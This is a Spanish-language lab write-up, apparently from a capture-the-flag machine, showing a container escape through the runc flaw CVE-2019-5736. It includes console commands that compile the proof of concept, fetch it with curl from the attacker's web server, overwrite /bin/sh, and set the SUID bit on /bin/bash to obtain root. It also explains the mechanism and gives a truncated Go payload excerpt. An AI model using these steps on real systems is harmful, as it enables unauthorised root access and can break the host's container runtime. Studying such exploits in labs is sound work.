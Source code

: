 ```console
└─$ cd CVE-2019-5736-PoC; cat main.go
# var payload = "#!/bin/bash \n chmod u+s /bin/bash"
└─$ go build -ldflags "-s -w" main.go
└─$ upx main # reducir su tamaño

noah@thenotebook:/tmp$ curl -s http://10.10.14.16/main -O
noah@thenotebook:/tmp$ chmod +x main
noah@thenotebook:/tmp$ hostname -I
10.10.10.230 172.17.0.1

noah@thenotebook:/tmp$ python3 -m http.server 6666
root@0f4c2517af40:/tmp# curl -s http://172.17.0.1:6666/main -O
root@0f4c2517af40:/tmp# chmod +x main
```
Ejecutamos el payload:

```console
root@e9b5f5fae303:/opt/webapp# ./main # -> [+] Overwritten /bin/sh successfully
noah@thenotebook:/tmp$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh   # -> No help topic for '/bin/sh'
noah@thenotebook:/tmp$ ls -l /bin/bash # -> -rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
noah@thenotebook:/tmp$ bash -p
bash-4.4# 4
```
--------------------------
# Extra: como funciona el exploit

[Fuente](https://github.com/lxc/lxc/commit/6400238d08cdf1ca20d49bafb85f4e224348bf9d)
```
El exploit se aprovecha de "runc" que es el sistema que corre los contenedores.
El ataque se realiza o cuando inicias un contenedor o te conectas a uno en ejecucion. Consiste en remplazar
el binario de destino (ej /bin/bash) del contenedor con uno malicioso que apunta hacia runc.

El malicioso que sustituye a /bin/bash apunta al interprete #!/proc/self/exe que es un enlace simbolico 
al "docker exec/runC"  

Como el kernel no permite escritura y ejecucion a la vez el script abre un descriptor de archivo en /proc/self/exe
usando "O_PATH" y lo reabre con "O_WRONLY" a traves de /proc/self/fd/PID_de_runc por tanto se separan los procesos

Cuando ejecuts runC este se reescribe y ejecuta a la vez por el #!/proc/self/exe. 
```
El tema con este exploit esque si no hace un backup rutinario de runC este al sovreescribirse se destruye y el 
sistema no puede correr dockers más.


Aqui está el exploit, lo he abreviado asi que no funcionará, asi que copien el del repo.
```go
package main
import ( "fmt" "io/ioutil" "os" "strconv" "strings" "flag")
var shellCmd string

func init() {
    flag.StringVar(&shellCmd, "shell", "", "Execute arbitrary commands")
    flag.Parse()}

func main() {
    // El comando que se ejecutará como root
    var payload = "#!/bin/bash \n chmod u+s /bin/bash"
    // Sobreescribir /bin/sh cone "/proc/self/exe" el interprete del runc
```